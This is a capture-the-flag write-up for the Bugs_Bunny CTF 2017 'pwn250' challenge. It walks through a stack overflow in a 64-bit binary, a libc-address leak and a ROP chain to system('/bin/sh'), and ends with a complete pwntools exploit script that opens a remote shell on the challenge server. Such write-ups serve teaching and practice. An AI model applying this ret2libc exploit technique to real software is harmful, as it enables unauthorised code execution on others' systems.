 ```yaml
---
layout: post
title:  "Bugs_Bunny CTF 2017 - pwn250"
date:   2017-07-31 5:00
categories: CTF
tags: [BugsBunnyCTF2017]
categories: [Pwn]
author: jbz
---
```



This was a pretty standard, stack-based overflow. You can download the file [here](https://github.com/jbzteam/CTF/raw/master/BugsBunnyCTF2017/pwn250/pwn250).

Through `file` and `checksec` we see that it's a 64-bit ELF non-stripped binary, dynamically linked, compiled with only the `NX` mitigation:
```bash
$ file ./pwn250 
./pwn250: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=b92b9ef9aa21452b83be93778ed175c6c37de92d, not stripped
$ checksec ./pwn250 
[*] './pwn250'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

If we open the binary with IDA, we see from the pseudocode that it's a quite simple binary:
```c
int main(int argc, const char **argv, const char **envp)
{
  here();
  write(1, "Hello, World\n", 13);
  return 0;
}
ssize_t here()
{
  char buf[128];

  return read(0, buf, 256);
}
```

The vulnerability is clear: there is a `read` call that reads 256 bytes from standard input and writes them in a variable that can contains 128 bytes.

There is NX so we cannot inject and execute shellcode directly. Our strategy then is to create a small ROP chain to call `system` and execute a shell.

First we need to gather the address of `system` from `libc`, and find an address that points to `/bin/sh`. Since the binary is not PIE, we can use one of the functions imported from libc to leak their address. Our target is `read`.

In order to do this we can use the `write` to print the address of `read`. The organizers were kind enough to leave a function called `foryou` with a great gadget:
```asm
.text:0000000000400566 foryou          proc near
.text:0000000000400566                 push    rbp
.text:0000000000400567                 mov     rbp, rsp
.text:000000000040056A                 pop     rdi
.text:000000000040056B                 pop     rsi
.text:000000000040056C                 pop     rdx
.text:000000000040056D                 retn
```

We can use this gadget to prepare the registers before the call to `write`. Our payload/ROP chain to leak the address of `read` looks like this:
```python
payload = ""
payload += "A" * 128
payload += p64(0xcafebabe) # RBP
payload += p64(0x400567) # mov rbp, rsp; pop rdi; pop rsi; pop rdx; ret;
payload += p64(0x1) # rdi
payload += p64(0x601020) # rsi - address of read
payload += p64(0x10) # rdx - number of bytes to write
payload += p64(0x400430) # address of write
payload += p64(0x4005A6) # jump back to here
```

One thing to keep in mind: we include the `mov rbp, rsp` in the ROP chain because if `rbp` contains an invalid address, the subsequent `leave` would fail and the program would crash. With the `mov` we make sure that `rbp` points to a valid address.

After using the gadget to populate the registers, we call `write` and when it returns we go back to the function `here` where we can send our second payload to get the shell.

Once we get the address of `read`, we can calculate the base address for `libc` (which was provided), and consequently the address of `system` and of the string `/bin/sh` in the binary.

Our second payload looks like this:
```python
payload = ""
payload += "A"*128
payload += p64(0xcafebabe) # RBP
payload += p64(0x400633) # pop rdi; ret; 
payload += p64(sh_address) # rdi
payload += p64(system_address)

```

This second payload first pops the address of `/bin/sh` into `rdi` and then executes `system`.

The full exploit code is below. Sorry guys, I forgot to save the flag :P
```python
from pwn import *

local = 0
if local:
    p = process("./pwn250")
    libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
else:
    p = remote("54.153.19.139", 5255)
    libc = ELF("./libc.so")

payload = ""
payload += "A"*128
payload += p64(0xcafebabe) # RBP
payload += p64(0x400567) # mov rbp, rsp; pop rdi; pop rsi; pop rdx; ret;
payload += p64(0x1) # rdi - standard output
payload += p64(0x601020) # rsi - address of read
payload += p64(0x10) # rdx - number of bytes to write
payload += p64(0x400430) # address of write
payload += p64(0x4005A6) # jump back to here
p.sendline(payload)

leak_addr = u64(p.recv(8))
libc_base_addr = leak_addr - libc.symbols['read']
system_address = libc_base_addr + libc.symbols['system']
sh_address = libc_base_addr + next(libc.search("/bin/sh\x00"))
log.info("libc_base_addr @ {:08x}".format(libc_base_addr))

payload = ""
payload += "A"*128
payload += p64(0xcafebabe) # RBP
payload += p64(0x400633) # pop rdi; ret; 
payload += p64(sh_address) # rdi
payload += p64(system_address)
p.sendline(payload)

p.sendline("uname -a && id")
p.interactive()

```
